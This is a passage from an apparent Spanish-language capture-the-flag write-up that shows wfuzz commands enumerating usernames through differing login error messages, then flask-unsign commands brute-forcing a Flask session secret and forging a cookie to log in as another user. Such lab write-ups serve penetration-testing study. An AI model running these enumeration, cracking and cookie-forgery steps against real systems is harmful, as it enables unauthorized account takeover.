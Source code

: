 ## Enumerando usuarios
Anteriormente en el intento de acceder usando credenciales por defecto, vimos el mensaje de error `Invalid credentials`. Cuando usamos el usuario que registramos (`test123`) con una contraseña errónea, aparece el mensaje `Ìnvalid login`, así que tenemos una vía potencial de enumerar usuarios. Denodo a lo anterior usaré `wfuzz` —también podríamos crear un script en python para el mismo fin—:

```shell
rabb1t@hold:~$ wfuzz -c --ss 'Invalid login' -w /usr/share/SecLists/Usernames/Names/names.txt -d 'username=FUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded' http://10.10.11.160:5000/login
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.160:5000/login
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                   
=====================================================================

000001208:   200        68 L     110 W      2027 Ch     "blue" 
```

- \-c: salida con colores
- \-\-ss: show regex
- \-w: diccionario
- \-d: datos
- \-H: cabecera

## ¿Tienes algún secreto?
El formato de datos lo podemos ver en la petición que mandamos al intentar ingresar con un usuario y contraseña desde el navegador.
Lo importante: obtuvimos un usuario, `blue` ¿Y ahora qué? Bueno, haciendo una búsqueda por internet o más bien en la "Biblia", [hacktricks](https://book.hacktricks.xyz), nos encontramos con algo que nos puede ayudar a [crackear](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask) el `secreto` del `JWT`:

```shell
rabb1t@hold:~$ flask-unsign --wordlist /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdDEyMyJ9.YxEeSg.4OIleiyuMjzHlWq0byrDImDLaqU' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'test123'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 18048 attempts
b'secret123'
```

Ahora que tenemos el secreto `secret123`, podemos construir nuestro propio `JWT` para conectarnos con el usuario `blue`:
```shell
rabb1t@hold:~$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YxEq4Q.mqsQtRYlhrqrq2hkn604WPY2PLY
```
